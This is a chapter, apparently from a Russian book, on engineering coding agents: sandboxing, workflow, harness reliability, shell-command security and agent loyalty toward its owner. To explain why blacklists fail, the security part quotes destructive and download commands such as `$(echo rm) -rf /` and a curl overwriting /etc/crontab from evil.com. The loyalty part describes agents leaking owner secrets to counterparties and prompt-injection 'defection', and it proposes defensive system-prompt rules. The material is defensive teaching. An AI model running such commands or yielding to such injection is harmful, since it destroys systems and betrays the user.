**Карта контента по безопасности в этой главе**. Обсуждение безопасности Coding Agent распределено по нескольким частям главы, поэтому здесь я привожу указатель, чтобы читателю было проще связать их воедино: текущий раздел («Три смертоносных элемента и перманентная память») описывает *модель угроз* — какие риски наиболее критичны; следующий раздел («Инженерный выбор песочницы для исполнения кода») посвящен *изоляции как последнему рубежу* — сетевым выходам, файловым системам, ограничению ресурсов и согласованию перманентных сессий с изоляцией; раздел «Инженерия Harness» рассматривает *защиту во время исполнения* — семантический анализ команд (вместо черных списков), спекулятивное исполнение для «невидимых» проверок безопасности, а также две дополнительные темы, касающиеся безопасности универсальных Agent: «Кому верен Agent» (лояльность при многостороннем делегировании) и «Когда код, написанный AI, сам по себе не заслуживает доверия» (смещение границы доверия на уровень данных). Эти обсуждения имеют разные акценты и дополняют друг друга, их не обязательно читать строго по порядку.

### Инженерный выбор песочницы для исполнения кода

В этой главе мы постоянно опираемся на наличие «песочницы» как на обязательное условие — инструмент Code Interpreter из состава семи основных инструментов требует изолированной среды, а стратегии безопасности полагаются на изоляцию как на страховку. Но песочница — это не просто переключатель, а серия инженерных решений. В четвертой главе мы уже ответили на вопросы «зачем нужна изоляция», разобрали принципы уровней изоляции (спектр из трех вариантов: изоляция на уровне процессов, контейнеры, microVM), а также правила выбора: «процессы — для локального личного использования, контейнеры — для одноарендного облака, microVM/gVisor — для многоарендных сред или незнакомого кода». В этом разделе мы не будем повторять этот спектр, а дополним его четырьмя пунктами, которые неизбежно возникают при внедрении Coding Agent и которые не были подробно раскрыты в четвертой главе: как управлять сетевым выходом, какой объем файловой системы монтировать, как ограничивать ресурсы и как примирить перманентные сессии с изоляцией.

**Контроль сетевого выхода**. Это один из самых часто игнорируемых, но при этом критически важных аспектов: по умолчанию сеть должна быть отключена, а доступ к ограниченному списку адресов (репозитории пакетов, сайты с документацией, API, явно необходимые для задачи) должен открываться через прокси по «белому списку». Вернемся к третьему пункту «трех смертоносных элементов» — «наличие возможности внешней коммуникации». Контроль сетевого выхода — это как раз защита на уровне исполнения для этого пункта: даже если Prompt Injection прошла успешно и вредоносный код считал конфиденциальные данные внутри песочницы, без выхода он не сможет их передать. Перекрытие канала передачи данных — гораздо более надежный рубеж обороны, чем попытки распознать каждую отдельную инъекцию.

**Область изоляции файловой системы**. Директория с исходным кодом монтируется в режиме «только для чтения» (Agent изменяет код через инструменты редактирования, после чего сгенерированные патчи проходят проверку и сохраняются на диск, либо копии помещаются в доступную для записи рабочую область); директория для записи создается отдельно для хранения артефактов и промежуточных файлов; файлы с учетными данными (`~/.ssh`, ключи, токены) вообще не должны монтироваться в песочницу — данные, которые невидимы, невозможно похитить. Это соответствует первому пункту «трех смертоносных элементов».

**Resource Quotas (ресурсные квоты) и Timeout (тайм-аут)**. CPU, память, дисковые квоты плюс ограничение по астрономическому времени (wall-clock timeout) для защиты от бесконечных циклов, fork-бомб (безумное самокопирование процессов до отказа системы) и неограниченной записи на диск. Деталь из практики: Timeout и превышение лимитов должны возвращать Агенту структурированную ошибку («Выполнение прервано после 120 секунд, последний вывод: ...»), а не просто бесшумно убивать процесс. Это дает Agent (агент) возможность скорректировать стратегию в следующем раунде.

**Гармония между Persistent Session (персистентная сессия) и изоляцией**. Далее в этой главе, в разделе «Персистентность состояния среды выполнения команд», отстаивается идея поддержания долгоживущих терминальных сессий, в то время как принцип изоляции требует, чтобы среда уничтожалась сразу после использования — между ними существует определенное противоречие. Путь к примирению таков: **сессия живет внутри песочницы**, время жизни терминальной сессии строго не превышает время жизни песочницы, и состояние сессии никогда не «убегает» на хост-машину. Для сценариев, требующих восстановления через длительные интервалы времени (как в упомянутой ранее архитектуре Sessionless), следует полагаться на снимки (snapshots) песочницы или подход «персистентность файлов рабочей области + пересборка среды по скрипту», а не бесконечно продлевать жизнь песочницы. Иными словами, персистируется **аудируемое описание состояния** (файлы, скрипты, манифесты), а не непрозрачный запущенный процесс.

### Общий процесс Coding Agent

Ниже описан **рекомендуемый инженерный процесс**, который переносит лучшие практики Software Engineering (разработка программного обеспечения) на Agent, очерчивая его идеальную форму. Реальные Coding Agent (такие как Claude Code, OpenClaw) чаще работают по реактивному итерационному циклу и **сокращают этот процесс по необходимости**: простые задачи пропускают этап проектирования и не блокируются на каждом шагу в ожидании одобрения пользователя; полный цикл проходится только тогда, когда задача сложна и имеет широкую зону влияния.

**Документирование проекта.**

Работа Coding Agent начинается с системного понимания проекта. Когда Agent впервые сталкивается с кодовым репозиторием, его первоочередная задача — не немедленное изменение кода, а выстраивание когнитивного каркаса всего проекта. Подобно новому инженеру в штате, который в первый день не отправляет код напрямую, а сначала знакомится со структурой проекта. Agent первым делом проверяет наличие документации: README, документов по архитектурному дизайну, руководств для разработчиков.

Если ключевая документация отсутствует, Agent не должен начинать работу «вслепую». Вместо этого ему следует взять на себя ответственность за документирование: путем системного чтения кодовой базы выявить основные модули, ключевые абстракции, зависимости между компонентами и создать начальную документацию, включающую обзор архитектуры, структуру каталогов и руководство по запуску тестов. Этот документ не только служит чертежом для последующей работы Agent, но и становится точкой входа для других разработчиков. Здесь проявляется ключевой принцип: экспликация (явное представление) знаний является предпосылкой эффективного взаимодействия.

Сегодня документирование проектов обрело специфическую для Agent форму: **файлы инструкций проекта**. Файлы `CLAUDE.md`, `AGENTS.md`, `.cursorrules` и им подобные стали фактическими отраслевыми стандартами — они автоматически впрыскиваются в контекст при начале каждой сессии, выполняя роль System Prompt (системный промпт) уровня проекта. В отличие от README, ориентированного на людей, файлы инструкций несут в себе соглашения о поведении для Agent: команды сборки и тестирования («используй `pnpm test` вместо `npm test`»), стиль кода («запретить тип any»), четкие запретные зоны («не меняй директорию `migrations/`»). Это применение той же идеи на разных уровнях, что и в OpenClaw с его `SOUL.md` (определяет личность и правила поведения Agent) и `MEMORY.md` (накапливает опыт между сессиями): `SOUL.md` договаривается о том, «кто такой Agent», а файл инструкций проекта — о том, «как работать именно в этом проекте». С точки зрения Context Engineering (контекстная инженерия) из второй главы, файлы инструкций также являются наиболее экономичным стабильным префиксом — их содержимое не меняется от задачи к задаче, что естественно дружелюбно к KV Cache. Это также самое прямое воплощение принципа «знания должны существовать в самой кодовой базе».

Из принципа экспликации знаний вытекает интересное следствие: **команды, дружелюбные к удаленной работе, часто оказываются дружелюбными и к AI Agent**. Удаленные команды вынуждены полагаться на асинхронную коммуникацию и документирование — записи решений фиксируются в документах, контекст прописывается в описаниях issue и PR, «племенные знания» оседают в руководствах для разработчиков, а не передаются устно у рабочего места или на доске в переговорке. Это именно та форма знаний, которую может потреблять Agent: он не может прочитать устные договоренности, но может прочитать дизайн-документы. И наоборот: в команде, сильно зависящей от принципа «спроси коллегу, сидящего рядом», стоимость входа в проект будет одинаково высокой как для нового удаленного сотрудника, так и для Agent. Простой прокси-метрикой для оценки степени AI-ready (готовности к AI) команды является вопрос: может ли новый удаленный сотрудник начать работать самостоятельно, опираясь только на репозиторий и документацию.

**Понимание задачи и уточнение требований.**

Для простых запросов с четкими границами и ограниченным влиянием — например, исправление известного бага или корректировка параметров функции — Agent может сразу переходить к этапу реализации. Однако большинство задач в разработке ПО не так просты.

 - **Structure-aware Chunking** (структурно-зависимое разделение на фрагменты): Код имеет строгую синтаксическую структуру, поэтому его следует разделять по полным семантическим единицам, таким как функции, классы и методы, а не слепо нарезать по фиксированному количеству символов.

Для сложных потребностей Agent (агент) должен действовать более осмотрительно и методично. Сложность может проистекать из нескольких измерений: неопределенность самих требований (пользователь знает, чего хочет, но не может точно это выразить), многообразие путей реализации (доступно несколько технических решений, каждое со своими компромиссами) или широкий охват влияния (необходимо изменить несколько модулей, что может нарушить существующую функциональность). Agent должен прояснять границы через исследовательский анализ и при необходимости активно вступать в диалог с пользователем. Например, когда пользователь просит «оптимизировать производительность системы», Agent сначала должен выяснить: какова конкретная цель оптимизации (снижение времени отклика, уменьшение потребления памяти или увеличение пропускной способности), каковы допустимые компромиссы (допустимо ли увеличение сложности кода) и где находится текущее «узкое место». Начало написания кода в состоянии неопределенности требований часто приводит к большому объему переделок.

**Написание проектной документации.**

Проектная документация является мостом, превращающим абстрактные требования в конкретный план реализации. Она должна отвечать на ключевые вопросы: какие модули изменяются и почему, какая схема выбрана и в чем ее относительные преимущества, какие новые зависимости необходимо внедрить и каково ожидаемое влияние на систему. Написание проектной документации само по себе является процессом глубокого мышления — оно заставляет Agent проверить осуществимость решения на концептуальном уровне, прежде чем вкладывать значительные усилия в написание кода. Что еще более важно, проектная документация предоставляет эффективную точку вмешательства для человека — проверить лаконичный проектный документ гораздо проще, чем сотни строк кода. После завершения подготовки документации Agent должен представить ее пользователю на рассмотрение и дождаться утверждения, прежде чем продолжать.

**Реализация кода и тестирование.**

Получив одобрение проекта, Agent приступает к реализации, следуя стандартам кодирования проекта, повторно используя существующие абстракции и инструменты, а также проводя при необходимости умеренный рефакторинг для поддержания здоровья кодовой базы.

Сразу после завершения реализации начинается этап обеспечения качества, управляемый тестированием — написание тест-кейсов для новых или измененных функций, охватывающих основные пути выполнения, граничные условия и исключения. После написания тестов выполняется тестовый набор. Если тесты не проходят, Agent не должен просто сообщать пользователю о неудаче, а должен проанализировать причины, локализовать проблему и изменять код до тех пор, пока все тесты не будут пройдены. Этот цикл «тестирование-исправление» может потребовать нескольких итераций, и именно эта способность к самокоррекции превращает Coding Agent из генератора кода в надежного инженерного помощника.

Даже если все тесты пройдены, работа Agent еще не закончена. Далее следует этап Code Review (ревью кода): Agent критически оценивает сгенерированный им код — насколько он читаем, достаточно ли комментариев; существуют ли потенциальные проблемы с производительностью или уязвимости в безопасности; соблюдается ли стиль кода и Best Practices (лучшие практики) проекта. Эта самопроверка может осуществляться путем чтения кода, запуска инструментов Lint (линтер) или вызова специализированного Sub-Agent (суб-агента) для ревью кода. Если в ходе проверки обнаруживаются проблемы, следует вернуться на этап внесения изменений для доработки, а не поставлять пользователю дефектный код.

**Синхронизация документации и поставка.**

Если изменения кода затрагивают архитектурный уровень — например, внедрение новых модулей, изменение зависимостей между модулями, модификация семантики основных абстракций — Agent должен соответствующим образом обновить архитектурную документацию. Устаревшая документация хуже, чем ее отсутствие, так как она вводит в заблуждение будущих разработчиков. Автоматически обновляя документацию после каждого важного изменения, Agent помогает поддерживать целостность и актуальность базы знаний проекта.

Этот процесс воплощает основные принципы Software Engineering (программная инженерия): планирование предшествует действию, проверка сопровождает весь процесс, а документация и код развиваются совместно.

### Практика Harness в Coding Agent

В первой главе была введена концепция Harness (обвязка) и формула **Agent = Model + Harness**. Здесь Harness включает в себя контекст и инструменты из основной формулы, а также механизмы ограничений, проверки и исправления — эти пять элементов вместе составляют Harness, определенный в первой главе. Coding Agent, вероятно, является областью с наибольшей отдачей от Harness Engineering — написание кода является наиболее проверяемым типом задач среди всех задач Agent, так как для ограничений, проверки и исправления существует готовая инфраструктура. В данном разделе основное внимание уделяется конкретным практикам в сценариях Coding Agent.

Возможность стабильной работы часто зависит не от того, насколько мощная модель используется, а от того, насколько прочна инфраструктура, выстроенная вокруг Agent. В первой главе Harness был разделен на два уровня: **Context (контекст) и Tools (инструменты)** (позволяют Agent действовать) и **Constraints (ограничения), Verification (проверка) и Correction (исправление)** (не дают Agent совершать ошибки). В сценарии Coding Agent они воплощаются в конкретные инженерные компоненты:

- **Базовая линия приемки**: что считается выполненным — тестовые наборы, CI Pipeline (конвейер непрерывной интеграции, серия автоматических проверок после фиксации кода), стандарты ревью кода.
- **Границы исполнения**: что Agent может трогать, а что нет — границы модулей, правила зависимостей, управление правами доступа.
- **Сигналы обратной связи**: автоматизированное суждение о правильности — вывод Linter (инструмент проверки стандартов кода, способный автоматически обнаруживать ошибки форматирования и потенциальные проблемы), результаты тестов, ошибки проверки типов.
- **Средства отката**: как восстановиться в случае возникновения проблем — контроль версий Git, изоляция в Sandbox (песочница), откат снимков состояния (Snapshot).

**Почему Coding Agent особенно подходит для Harness Engineering.**

Задачи можно разделить на четыре состояния по двум измерениям: ясность задачи и степень автоматизации проверки. Область, где цель ясна, а результат можно проверить автоматически, — это зона, где Agent проявляет себя лучше всего. Если цель ясна, но приемка по-прежнему зависит от контроля человека, потолок пропускной способности определяется скоростью проверки человеком. При наличии автоматизированной обратной связи, но неясной цели, система будет эффективно двигаться в неверном направлении. Если же отсутствуют оба фактора, Agent практически бесполезен. В таблице 5-1 показаны эти четыре состояния; цель Harness — перевести как можно больше задач в квадрант «ясная цель + автоматизированная проверка».

Таблица 5-1. Четыре квадранта четкости задач и степени автоматизации верификации

| | Результат верифицируется автоматически | Результат требует ручной верификации |
|---|---|---|
| **Цель ясна** | Оптимальная зона: исправление bug с тест-кейсами | Ограниченная пропускная способность: рефакторинг кода требует Code Review |
| **Цель размыта** | Эффективное движение в неверном направлении: оптимизация «качества кода» с помощью linter | Трудно запустить: «сделать UI красивее» |

Написание кода естественным образом находится в центре этого квадранта: тестовые наборы (Test Suites) обеспечивают четкие критерии приемки, Linter и средства проверки типов предоставляют мгновенную автоматическую верификацию, а Git дает идеальные возможности контроля версий и отката (Rollback). Это объясняет, почему Coding Agent (агент для кодинга) является наиболее зрелым среди всех типов Agent на сегодняшний день: не потому, что модели генерации кода особенно сильны, а потому, что инфраструктура, накопленная программной инженерией за десятилетия, естественным образом образует мощный Harness (обвязку).

**Практика индустрии.**

Практика Harness в трех кейсах подтверждает вышеуказанные принципы:

- **Кейс масштабной миграции кода** (на основе публичного опыта крупной технологической компании): успех зависел не от мощности модели, а от того, что Harness правильно реализовал три вещи — знания должны находиться в самой кодовой базе (чего Agent не видит, того не существует), ограничения вшиваются в Linter и CI, а не пишутся в документации, верификация и исправление полностью автоматизированы на всем протяжении цепочки.
- **LangChain**: значительное повышение производительности на базовых задачах было достигнуто только за счет оптимизации Harness (системные Prompt, промежуточное ПО для инструментов, циклы самоверификации). Особо стоит отметить методологию «использования Agent для анализа траекторий отказов с целью улучшения Harness», что перевело Harness Engineering (инженерию обвязки) с этапа ручного эмпирического управления на управление, основанное на данных.
- **Anthropic**: разделение длинной задачи на две роли — инициализирующий Agent отвечает за декомпозицию большой задачи в Task List (список задач), а исполняющий Agent отвечает за постепенное продвижение и передачу промежуточных результатов (таких как завершенные файлы кода, обновленный Task List и т. д.) следующему раунду. Такое разделение труда решает проблемы долгоживущих Agent, которые «хотят сделать слишком много за раз» или «преждевременно заявляют о завершении».

**От Coding Agent к общим принципам проектирования Harness.**

Практика Harness в Coding Agent дает переносимые принципы проектирования для всех систем Agent:

1. **Ограничения важнее инструкций**: если правило можно принудительно исполнить через код, не используйте рекомендации в документации. Ценность правил Linter, ограничений типов и проверок CI намного выше, чем инструкции типа «пожалуйста, следуйте...» в системном Prompt — первое делает нарушение невозможным, второе лишь «не рекомендует» его.
2. **Верификация должна быть автоматизирована**: ручная проверка — это не масштабируемое «узкое место». Инвестиции в инфраструктуру — тестовые наборы, проверку качества кода, мониторинг поведения — приносят гораздо большую отдачу, чем увеличение человеческих ресурсов.
3. **Обратная связь чем быстрее и структурированнее, тем лучше**: чем подробнее сообщение об ошибке и чем ближе оно к моменту возникновения ошибки, тем выше эффективность исправления Agent. Технология статус-бара Agent из второй главы (подробная информация об ошибках, счетчик Tool Calling) является воплощением этого принципа.
4. **Откат должен быть надежным**: Agent может смело пробовать и ошибаться только в пределах «сети безопасности». Ветки Git, песочницы (Sandbox), механизмы Snapshot (снимков состояния) гарантируют обратимость любой ошибки.

**Reliability Engineering (инженерия надежности).**

Вышеупомянутые принципы доведены до предела в Agent производственного уровня, таких как Claude Code. В первой главе были кратко описаны основные функции Harness с точки зрения контекста, инструментов, ограничений, верификации и исправления; данный раздел фокусируется на сценарии Coding Agent, демонстрируя сложность реализации этих функций в реальной инженерии. Agent производственного уровня в основном сталкиваются с тремя типами граничных проблем: **прерывание вывода** (ошибка модели на середине генерации), **зависание соединения** (длительное отсутствие ответа), **цикл внутреннего состояния** (Agent зацикливается на повторяющихся операциях). Ниже приведены стратегии реагирования.

**Error Recovery (восстановление после ошибок): инженерная реализация многоуровневых стратегий восстановления**. Принцип исправления, предложенный в первой главе — не раскрывать промежуточное состояние до подтверждения невозможности восстановления — требует конкретного градиента восстановления в Coding Agent. Рассмотрим пример, когда вывод модели достигает лимита длины (генерация прерывается на середине): первый уровень — молчаливое увеличение лимита контекста и повторная попытка; второй уровень — добавление мета-инструкции в конец сообщения, чтобы модель продолжила генерацию с точки разрыва; третий уровень — только после исчерпания всех автоматических средств восстановления ошибка передается пользователю. Аналогично, при возникновении аномалий в структуре диалога (например, Tool Calling без соответствующего сообщения с результатом), система автоматически исправляет связи между сообщениями вместо выдачи ошибки. Стоит отметить, что некоторые Agent производственного уровня одновременно работают в режиме продукта и в режиме сбора обучающих данных, и требования к качеству данных в них различаются: в режиме продукта можно использовать заполнители (placeholders) для исправления отсутствующих сообщений, но в строгом режиме сбора данных в исправлении будет отказано — так как внедрение синтетических заполнителей в обучающие данные загрязнит модель. Этот двойной стандарт — «снисходительность в режиме продукта, строгость в режиме обучения» — отражает глубокую связь Harness с обучением моделей.

**Resilience (устойчивость) потоковых соединений**. Самый опасный режим сбоя потокового API — это не разрыв соединения (который немедленно вызывает ошибку), а «тихое зависание»: соединение успешно установлено, но поток данных прекращается, подобно водопроводной трубе, в которой есть давление, но не течет вода. Механизмы таймаута в SDK обычно покрывают только этап установления первоначального соединения, а не процесс потоковой передачи. Для Production Agent (агент промышленного уровня) требуется независимый пустой Watchdog timer (сторожевой таймер — механизм обнаружения зависания системы: если в течение заданного времени не поступает новых данных, система признается зависшей и запускается восстановление), который непрерывно отслеживает время получения последнего пакета данных. По истечении таймаута он принудительно завершает зависший поток и инициирует Retry (повтор) или Fallback (откат). Это универсальный принцип: **каждому длительному соединению нужен сигнал активности (liveness signal), а не просто опора на таймаут соединения**.

**Защита от бесконечных циклов в хуках**. Когда траектория Agent уже находится в невалидном состоянии (например, ошибка Context Window (контекстное окно)), не следует снова запускать стоп-хуки (то есть логику очистки, автоматически выполняемую при завершении работы агента). В противном случае сам хук может завершиться сбоем и вызвать новый хук, создавая бесконечный цикл, подобно эффекту домино. Пример: Agent останавливается из-за переполнения контекста → срабатывает хук «автоматически закоммитить код при завершении» → хук вызывает LLM для генерации commit message → снова происходит переполнение контекста → снова срабатывает хук → бесконечный цикл. Системы промышленного уровня используют счетчик глубины рекурсии для обнаружения и прерывания таких циклов.

**Безопасность и производительность.**

Это соответствует модели угроз, обсуждавшейся ранее (три фатальных фактора): там анализировалось, «какие риски наиболее фатальны», здесь же обсуждается, «как реализовать защиту на уровне имплементации».

**Безопасность: семантический парсинг вместо черных списков ключевых слов**. В первой главе упоминалось, что уровень проверки должен использовать механизмы безопасности, «основанные на понимании, а не на сопоставлении». Проверка безопасности Shell-команд — это наиболее сложный сценарий применения данного принципа. Простые черные списки ключевых слов не способны справиться с комбинаторным взрывом Shell: команды могут обходить любые статические правила через конвейеры (pipes), подоболочки (sub-shells), подстановку переменных и т. д. (например, если `rm` запрещена, злоумышленник может использовать `$(echo rm) -rf /`). Промышленный Harness (обвязка) использует семантический парсинг: понимание типов аргументов каждой команды и правил их потребления (какие флаги потребляют следующий аргумент), выявляя типы атак, где «безобидный на первый взгляд флаг на самом деле потребляет следующий параметр, скрывая опасную нагрузку». Например, `find / -name '*.log' -exec rm {} \;` через легальные параметры команды `find` внедряет операцию удаления `rm`; или `curl -o /etc/crontab http://evil.com/payload` — на первый взгляд загрузка файла, а на деле перезапись системного планировщика задач. Семантический парсинг способен распознать эти вложенные опасные операции, которые невозможно поймать простым черным списком команд. Такой механизм безопасности, основанный на понимании, является продвинутой реализацией функции «ограничения».

**Speculative execution (спекулятивное выполнение): делаем проверку безопасности «невидимой»**. Это именно тот эффект, который дает механизм Sidecar-шлюза из четвертой главы на уровне пользовательского опыта. В четвертой главе объяснялось, почему критические операции должны передаваться на проверку Sidecar, независимому от основного контекста; в данном же разделе рассматривается, как сделать так, чтобы эта проверка не воспринималась пользователем как ожидание. Решение заключается в разделении и параллельном выполнении «отображения» и «разрешения»: когда Agent готовится вызвать инструмент, система одновременно выводит на интерфейс индикатор прогресса (например, «Чтение файла `src/main.py`...») и запускает проверку безопасности в фоновом режиме. Здесь важно прояснить аналогию, которую часто применяют неверно: это не то же самое, что спекулятивное выполнение в CPU. Если CPU ошибся в прогнозе, он должен отбросить вычисленные результаты и откатить состояние. Здесь же опережающим является лишь **UI-уведомление без побочных эффектов**, оно не меняет реального состояния. Если проверка не пройдена, откат не требуется — уведомление просто заменяется на «ожидание подтверждения». В большинстве случаев проверка безопасности завершается раньше, чем пользователь успевает ее заметить, и он не ощущает никакой дополнительной задержки. Только когда невозможно быстро принять решение, система действительно приостанавливается для подтверждения. Это высший уровень проектирования Harness: безопасность не идет в ущерб пользовательскому опыту.

**Tool Calling (вызов инструментов): контроль границ сбоев**. Зрелые Coding Agent поддерживают параллельный Tool Calling. Уникальная проблема с точки зрения Harness заключается в том, **как распространяется сбой**: если один инструмент дает сбой, какие вызовы должны быть прерваны, а какие продолжены? Принцип таков: сбой распространяется только внутри той же группы параллельных вызовов и не поднимается до родительской операции. Например, при одновременном чтении трех файлов, если один не найден, следует сообщить об ошибке только для него, а не отменять два других и тем более не останавливать всю задачу целиком. Такой точный контроль границ сбоев позволяет избежать хрупкой модели, где «одна ошибка в команде приводит к остановке всей задачи». Конкретные механизмы параллельного вызова, потокового парсинга и каскадной остановки описаны в следующем разделе «Техники реализации».

Общей чертой этих паттернов является то, что **они решают не проблему «недостатка способностей модели», а проблему «Robustness (робастность) системы в граничных условиях»**. Модели могут становиться все сильнее, но сеть будет обрываться, процессы — зависать, а пользователи — совершать непредвиденные действия. Именно в этом заключается ценность Harness.

**Кому предан Agent: лояльность в условиях многостороннего делегирования.**

(Этот раздел представляет собой расширенное обсуждение темы безопасности универсальных Agent (агент) — **principal loyalty** (лояльность принципалу) — в контексте Coding Agent. Он косвенно связан с основной линией проектирования надежности в этой главе и предлагается читателям для факультативного ознакомления.)

Предыдущие механизмы безопасности были направлены на предотвращение ситуации, когда «команда выполняется некорректно». Однако существует и более тонкая проблема безопасности: **на чьей стороне на самом деле играет Agent**. Современные модели в процессе обучения усваивают простой принцип по умолчанию: «кто со мной говорит, тому я и стараюсь помочь». Но в реальности Agent часто оказывается в ситуации **многостороннего делегирования** (multi-party delegation): он действует от имени своего владельца (principal), но при этом вынужден взаимодействовать с третьими сторонами, чьи интересы могут быть противоположными. Agent, который торгуется за вас, Agent, проводящий первичный скрининг резюме для компании, или Agent, ведущий переговоры с сервисной службой от вашего имени — все они сталкиваются не с «пользователем, которому нужна помощь», а с **оппонентом по переговорам**. В таких случаях установка «помогать тому, кто говорит» становится опасной: оппоненту достаточно открыть рот, чтобы переманить Agent на свою сторону.

Если протестировать современные модели в подобных сценариях, можно увидеть четкий **спектр лояльности**, при этом на обоих его концах случаются провалы [^ch5-1]. На одном крае — **излишняя доверчивость**: Agent выдает конфиденциальную информацию владельца (например, «наша минимальная цена — 12 000») напрямую оппоненту или даже просто признает факт существования такой информации при наводящих вопросах; после нескольких раундов давления он «сдает позиции» и идет на уступки. На другом крае — **излишняя подозрительность**: чтобы избежать утечки, Agent начинает отклонять даже законные запросы владельца и боится что-либо предпринимать, в итоге не справляясь с задачей. Результаты тестирования десятка передовых моделей демонстрируют резкую поляризацию: одни способны снизить долю «предательства владельца» до уровня ниже 20%, у других же этот показатель зашкаливает. Сложность заключается в том, что эти два типа неудач работают как качели: попытка полностью перекрыть утечки часто приводит к гипертрофированным отказам (over-refusal), и наоборот — найти баланс крайне трудно.

Этот взгляд особенно актуален для Coding Agent и Agent Harness (обвязка агента). «Оппоненты», с которыми сталкивается Coding Agent, повсюду: это может быть фрагмент недоверенного контента, прочитанный в репозитории, вывод какого-то инструмента или инструкция, пришедшая от стороннего MCP (Model Context Protocol) сервера. **Prompt Injection (промпт-инженерия) по своей сути — это попытка «оппонента» заставить вашего Agent дезертировать** (главы 2 и 4). Поэтому на уровне Harness необходимо жестко зафиксировать «объект лояльности»: инструкции владельца (разработчика или авторизованного пользователя) имеют наивысший приоритет, в то время как любой контент от внешних сторон по умолчанию низводится до статуса данных, которые «можно учитывать, но которые не имеют силы инструкции». На практике эффективный **кодекс лояльности** в системном промпте выглядит так: защищать конфиденциальную информацию владельца и даже сам факт её «существования»; при отказе не перечислять пункты списка запретов (это само по себе является утечкой); скрытая «красная линия» не равна публичной позиции (минимальная цена 12 000 не означает, что её можно озвучивать, и тем более не означает, что её нужно сразу принимать); полномочия на уступки остаются «в кулаке» и не предъявляются превентивно; выполнять только четкие и конкретные указания владельца; выдерживать повторное давление и не считать многократные вопросы поводом для уступок. Прописывание этих правил в системном промпте значительно снижает вероятность того, что Agent будет «перевербован». По сути, это использование Harness для того, чтобы наделить модель позицией, которой у неё нет по умолчанию: **абсолютная лояльность владельцу и осмотрительность по отношению к внешним контрагентам**.

[^ch5-1]: Полный отчет об этом спектре лояльности и правилах см. в: Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**Когда код, написанный AI, сам по себе недоверен: смещение границы доверия вниз.**

(Этот абзац является продолжением обсуждения лояльности — перенос ограничений с «надежды на сознательность Agent» на уровень принудительного исполнения в слое данных. Также относится к общей безопасности Agent и предлагается для факультативного чтения.) Вышеупомянутый кодекс лояльности делает поведение Agent **более вероятным** в рамках правил, но «более вероятным» недостаточно для критически важных операций с данными. Если развивать это недовольство дальше, мы придем к более радикальной позиции [^ch5-2]. Последние тридцать лет граница целостности программного обеспечения находилась на **прикладном уровне** (application layer) — именно код обработчиков (handlers) определял, кто может выполнять операции, какие значения валидны и какие переходы состояний допустимы; база данных же безоговорочно доверяла тому, что записывал этот код. Эта схема работала при условии, что код на границе написан, проверен и эксплуатируется **ответственным человеком**. AI нарушает это условие дважды: во-первых, сгенерированные LLM обработчики часто упускают проверки прав доступа и целостности, которые авторы-люди добавили бы не задумываясь; во-вторых, автономный Agent напрямую работает с промышленными данными, и одна инъекция промпта или одна галлюцинация может разрушить или скомпрометировать всё, до чего дотянутся его учетные данные.

Основной подход заключается в том, чтобы **укрепить этот ненадежный слой** — использовать конституционные принципы для направления генерации, применять linter для проверки структуры или contract для мониторинга действий Agent (агента). Все это делает код, написанный ИИ, «более вероятно» соответствующим правилам, но не меняет того, **какой именно слой является доверенным**. Более радикальный метод — пойти от обратного: **просто считать прикладной слой ненадежным и спустить принудительное исполнение инвариантов данных уровнем ниже** (это можно назвать Permission-Embedded Data Objects, объектами данных со встроенными правами доступа). Каждая сущность данных в рамках **проверенной человеком schema** (схемы) снабжается декларативными правилами доступа, валидаторами и описанием последствий нарушений, а трехуровневый конвейер выполнения (runtime pipeline) принудительно применяет их при **каждой записи**. Ключевым моментом является единый примитив — привязанный к каждой операции **access context** (контекст доступа): заново сгенерированные handler (обработчики) работают с правами пользователя, которого они обслуживают, а автономный Agent — со своей собственной ограниченной идентичностью (scoped principal). Это как раз перекликается с темой «лояльности», затронутой ранее: вместо того чтобы просто надеяться на лояльность Agent, лучше архитектурно низвести его до субъекта с ограниченными правами, чтобы он не мог нарушить границы, даже если будет «перевербован».

Цена и выгода такого подхода вполне очевидны. Если сравнить этот механизм с несколькими мейнстримными решениями на одном и том же наборе prompt (промптов), он позволяет добиться **нулевого количества записей, нарушающих декларативные инварианты** (чистый ноль); в то время как при тех же prompt голый SQL, проверки, написанные самой LLM, конституционные подсказки и перехватчики границ действий допускают от нескольких до десятков нарушений. Этот «ноль» — именно то, что должен давать структурный механизм: это не «с большей вероятностью правильно», а «невозможно ошибиться», ценой чего являются лишь дополнительные 2 миллисекунды на каждую запись в конвейере. Разумеется, эта гарантия условна: schema должна действительно содержать все необходимые инварианты, а при развертывании должны быть перекрыты все пути обхода хранилища ненадежным слоем и прямого подключения к базе данных (с помощью изоляции процессов, сетевых sidecar или дескрипторов возможностей — capability handles). Для Coding Agent это дает важный архитектурный принцип: **когда и тот, кто пишет код, и тот, кто его запускает, могут быть ненадежными, по-настоящему надежные ограничения не должны находиться внутри сгенерированного кода — они должны находиться под ним, в проверенном человеком фундаменте**. Это и есть ультимативная форма принципа «ограничения важнее руководства» из первой главы на уровне данных. [^ch5-2]

[^ch5-2]: Описание и оценка этого дизайна «смещения границы доверия ниже прикладного слоя» (включая полное сравнение количества нарушений для различных решений) см. в Li, Bojie (Ли Боцзе). *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (готовится к публикации).

### Техники реализации Coding Agent

Описанный выше рабочий процесс является идеальным состоянием. Чтобы он действительно заработал на практике, требуется несколько конкретных техник реализации — они позволяют повысить скорость отклика и снизить потребление контекста при сохранении качества мышления. Это конкретные применения общих технологий Agent, обсуждавшихся во второй и четвертой главах, в сфере программирования.

**Параллельный Tool Calling, потоковое выполнение и каскадная остановка.**

Традиционные реализации Agent часто используют последовательный режим: генерация одного вызова инструмента, его выполнение, получение результата и только затем принятие решения о следующем шаге. Такое строгое ожидание в очереди тратит массу времени.

Современные Coding Agent должны в полной мере использовать потоковые ответы (streaming responses): во второй главе при обсуждении порядка вывода модели мы представляли этот механизм — как только параметры первого Tool Calling (вызова инструмента) полностью сгенерированы и прошли валидацию, можно немедленно приступать к выполнению, не дожидаясь, пока модель сгенерирует последующие вызовы. Например, если модель за один проход выводит три последовательных вызова инструментов: поиск кода, проверка конфигурационного файла и чтение логов, — выполнение первого вызова может начаться сразу после валидации его параметров, перекрываясь по времени с процессом генерации двух последующих вызовов; независимые друг от друга вызовы также могут выполняться параллельно, а не в очереди. Такое перекрывающееся выполнение значительно снижает сквозную задержку (latency), делая отклик Agent более гибким.

